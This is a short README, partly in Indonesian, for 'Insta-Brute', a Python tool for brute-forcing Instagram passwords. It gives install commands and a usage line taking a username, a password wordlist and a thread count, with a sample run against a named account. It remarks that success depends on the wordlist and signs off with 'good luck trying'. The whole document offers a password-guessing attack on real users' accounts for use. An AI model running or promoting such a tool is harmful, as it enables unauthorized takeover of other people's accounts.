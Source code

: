 # Insta-Brute

```bash
git clone https://github.com/dnerzker/Insta-Brute.git
$ cd Insta-Brute
$ chmod +x instagram.py
$ create (wordlist)  keberhasilan terletak pada wordlist nya
```

# __Usage:
 `python instagram.py <username> <wordlist> <threads>

# **run** 
 `python instagram.py santi123 pass.lst 16


# positional arguments:
  username    email or username
  wordlist    password list
  threads     password per seconds. Any number <= 16

# optional arguments:
  -h, --help  show this help message and exit
  
  
  ```bash
  selamat mencoba :)
 # by ./Dnerzker
```
